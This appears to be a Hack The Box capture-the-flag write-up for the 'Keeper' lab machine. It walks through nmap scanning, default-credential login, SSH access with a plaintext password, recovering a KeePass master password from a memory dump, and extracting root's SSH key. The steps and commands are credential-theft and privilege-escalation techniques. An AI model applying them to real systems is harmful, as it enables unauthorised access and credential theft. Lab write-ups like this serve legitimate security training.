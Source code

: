 ```yaml
---
layout: post
title:  "Keeper"
date:   2025-06-02 22:00:00 -0400
categories: HTB-machine linux easy 
tags: HTB CTF writeup nmap keepass
image:
    path: assets/img/htb/Keeper/Keeper.png
---
```


# Machine Information

Keeper is an easy-difficulty Linux machine that features a support ticketing system that uses default credentials. Enumerating the service, we are able to see clear text credentials that lead to SSH access. With `SSH` access, we can gain access to a KeePass database dump file, which we can leverage to retrieve the master password. With access to the `Keepass` database, we can access the root `SSH` keys, which are used to gain a privileged shell on the host. 

# Writeup
### Enumeration
```
nmap -sCV -T5 10.129.229.41

PORT   STATE SERVICE VERSION                                                                                                                                                       
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                                                                  
| ssh-hostkey:                                                                                                                                                                     
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)                                                                                                                    
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)                                                                                                                  
80/tcp open  http    nginx 1.18.0 (Ubuntu)                                                                                                                                         
|_http-title: Site doesn't have a title (text/html).                                                                                                                               
|_http-server-header: nginx/1.18.0 (Ubuntu)                                                                                                                                        
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel 
```

Go to website with port 80, resolve IP domain
```bash
echo "{IP} {domain}" | sudo tee -a /etc/hosts
```

Search for default credential of Request Tracker, and login in.

### User Flag
Look at the top bar, we will see User > Select > click on that username, scroll down and we will see plain text password.

Connect to SSH and get the flag.

### Root Flag
Download `zip` file from SSH using
```bash
sshpass -p 'Welcome2023!' scp -v lnorgaard@keeper.htb:/home/lnorgaard/RT30000.zip .
```

unzip file and we will see `.dmp` and `.kdbx' files.

Search on Google `Keepass dump vulnerablity poc` and I got this [POC](https://github.com/matro7sh/keepass-dump-masterkey?source=post_page-----dcfced7acf7c---------------------------------------)

Run file and we got this
```
drgd med flde
```

Search it and we have
```
Rødgrød med fløde
```

Now crack `.kdbx` file using `kpcli`
```bash
kpcli --kdb passcodes.kdbx
```

Go to `password/Networks`, `show -f 0` we will see the key. Copy all characters after `Notes` and delete all the begining spaces. Crack with

```bash
puttygen key -O private-openssh -o rsa
```

Connect to SSH with root and the key we just cracked.
```bash
ssh root@{IP} -i rsa
```
